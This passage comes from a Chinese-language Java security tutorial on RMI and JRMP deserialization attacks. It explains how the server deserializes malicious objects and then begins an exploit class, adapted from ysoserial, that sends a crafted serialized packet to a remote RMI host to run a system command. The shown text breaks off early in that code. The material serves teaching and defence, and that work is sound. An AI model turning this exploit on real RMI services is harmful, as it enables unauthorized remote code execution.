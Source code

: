 ![]({{site.url}}/images/image-20191231154833818.png)

上图可以看到我们构建的恶意`Remote对象`会通过`RemoteCall`序列化然后通过`RemoteRef`发送到远程的`RMI服务端`。

**RMI服务端`bind`反序列化：**

![]({{site.url}}/images/image-20191231155509069.png)

具体的实现代码在：`sun.rmi.registry.RegistryImpl_Skel`类的`dispatch`方法，其中的`$param_Remote_2`就是我们`RMIExploit`传入的恶意`Remote`的序列化对象。

## RMI-JRMP反序列化漏洞

`JRMP`接口的两种常见实现方式：

1. `JRMP协议(Java Remote Message Protocol)`，`RMI`专用的`Java远程消息交换协议`。
2. `IIOP协议(Internet Inter-ORB Protocol)` ，基于 `CORBA` 实现的对象请求代理协议。

由于`RMI`数据通信大量的使用了`Java`的对象反序列化，所以在使用`RMI客户端`去攻击`RMI服务端`时需要特别小心，如果本地`RMI客户端`刚好符合反序列化攻击的利用条件，那么`RMI服务端`返回一个恶意的反序列化攻击包可能会导致我们被反向攻击。

我们可以通过和`RMI服务`端建立`Socket`连接并使用`RMI`的`JRMP`协议发送恶意的序列化包，`RMI服务端`在处理`JRMP`消息时会反序列化消息对象，从而实现`RCE`。

**JRMP客户端反序列化攻击示例代码：**

```java
package com.anbai.sec.rmi;

import sun.rmi.server.MarshalOutputStream;
import sun.rmi.transport.TransportConstants;

import java.io.DataOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.net.Socket;

import static com.anbai.sec.rmi.RMIServerTest.RMI_HOST;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * 利用RMI的JRMP协议发送恶意的序列化包攻击示例，该示例采用Socket协议发送序列化数据，不会反序列化RMI服务器端的数据，
 * 所以不用担心本地被RMI服务端通过构建恶意数据包攻击，示例程序修改自ysoserial的JRMPClient：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPClient.java
 */
public class JRMPExploit {

   public static void main(String[] args) throws IOException {
      if (args.length == 0) {
         // 如果不指定连接参数默认连接本地RMI服务
         args = new String[]{RMI_HOST, String.valueOf(RMI_PORT), "open -a Calculator.app"};
      }

      // 远程RMI服务IP
      final String host = args[0];

      // 远程RMI服务端口
      final int port = Integer.parseInt(args[1]);

      // 需要执行的系统命令
      final String command = args[2];

      // Socket连接对象
      Socket socket = null;

      // Socket输出流
```